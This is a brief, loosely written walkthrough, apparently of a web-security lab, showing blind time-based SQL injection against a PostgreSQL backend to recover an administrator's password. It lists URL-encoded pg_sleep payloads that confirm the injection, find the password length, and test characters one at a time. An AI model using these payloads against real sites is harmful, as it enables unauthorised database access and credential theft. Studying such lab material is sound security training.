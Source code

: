 we want to find admin pass

';SELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(0) 
by using this query we time delay will be happen

`'%3BSELECT+CASE+WHEN+(1=2)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--` (encode)
 by using this query we didn't have a time delay
`'%3BSELECT+CASE+WHEN(username='administrator'+AND+LENGTH(password)>1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--`(encode)
 by using this user administrator will be true
 
`'%3BSELECT+CASE+WHEN(username='administrator'+AND+LENGTH(password)>1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--`
 find the length of the password 19
 `'%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,1,1)='a')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--`
 first letter of the pass is m
 by brute forcing the password has been find


 
